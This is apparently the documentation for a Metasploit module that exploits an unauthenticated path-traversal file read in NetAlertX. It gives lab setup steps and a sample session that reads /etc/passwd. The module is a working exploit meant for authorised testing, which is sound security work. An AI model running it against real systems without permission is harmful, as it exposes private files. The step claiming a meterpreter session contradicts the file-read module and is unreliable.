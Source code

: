 ## Description


An attacker can read any file through log functionality with no authentication.

The vulnerability affects:

    * v24.7.18 <= NetAlertX <= v24.9.12

## Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```

## Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/netalertx_file_read`
4. Do: `run rhost=<rhost>`
5. You should get a meterpreter


## Example

```
msf6 > use auxiliary/scanner/http/netalertx_file_read 
msf6 auxiliary(scanner/http/netalertx_file_read) > show options

Module options (auxiliary/scanner/http/netalertx_file_read):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DEPTH     5                yes       Traversal Depth (to reach the root folder)
   FILEPATH  /etc/passwd      yes       The path to the file to read
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
   RPORT     20211            yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   VHOST                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/netalertx_file_read) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(scanner/http/netalertx_file_read) > run
[*] Received data:
[*] root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
catchlog:x:100:101:catchlog:/:/sbin/nologin
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin

[*] Stored results in netalert_result.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/netalertx_file_read) > 


```


